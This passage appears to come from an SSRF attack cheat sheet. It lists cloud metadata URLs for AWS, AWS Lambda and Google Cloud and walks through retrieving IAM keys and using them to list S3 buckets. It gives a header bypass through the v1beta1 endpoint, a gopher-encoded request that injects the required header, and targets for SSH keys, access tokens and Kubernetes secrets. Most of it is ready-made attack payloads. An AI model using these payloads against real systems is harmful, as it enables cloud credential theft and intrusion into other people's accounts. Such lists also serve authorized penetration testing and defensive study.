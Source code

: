 We then retrieve the `AccessKeyId`, `SecretAccessKey`, and `Token` from the API.

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

Then we use the credentials with `aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`.


### SSRF URL for AWS Lambda

AWS Lambda provides an HTTP API for custom runtimes to receive invocation events from Lambda and send response data back within the Lambda execution environment.

```powershell
http://localhost:9001/2018-06-01/runtime/invocation/next
$ curl "http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next"
```

Docs: https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next

### SSRF URL for Google Cloud

:warning: Google is shutting down support for usage of the **v1 metadata service** on January 15.

Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

```powershell
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

Google allows recursive pulls

```powershell
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
```

Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/
http://metadata.google.internal/computeMetadata/v1beta1/?recursive=true
```

Required headers can be set using a gopher SSRF with the following technique

```powershell
gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%2f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
```

Interesting files to pull out:

- SSH Public Key : `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
- Get Access Token : `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
- Kubernetes Key : `http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`
